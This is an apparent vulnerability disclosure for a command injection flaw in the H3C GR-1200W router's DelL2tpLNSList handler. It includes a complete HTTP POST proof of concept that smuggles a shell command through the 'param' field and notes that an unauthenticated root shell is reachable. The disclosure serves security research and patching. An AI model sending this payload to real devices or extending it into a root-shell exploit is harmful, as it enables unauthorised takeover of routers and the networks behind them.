




# H3C GR-1200W (<=MiniGRW1A0V100R006) Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202102/1383837_30005_0.htm

### Product Information

H3C GR-1200W MiniGRW1A0V100R006 router, the latest version of simulation overview：



## Vulnerability details

The H3C GR-1200W (<=MiniGRW1A0V100R006)  router was found to contain a command insertion vulnerability in DelL2tpLNSList.This vulnerability allows an attacker to execute arbitrary commands through the "param" parameter.



In the `DelL2tpLNSList` function, it format the `param` parameter we entered into `V13` through the `snprintf` function, and execute our command through the system function. We can execute our orders through $(command).

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.0.124:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 553
Origin: https://192.168.0.124:80
DNT: 1
Connection: close
Cookie: JSESSIONID=5c31d502
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=DelL2tpLNSList&param=1; $(ps>/www/1);
```





The above figure shows the POC attack effect


Finally, you also can write exp to get a stable root shell without authorization.
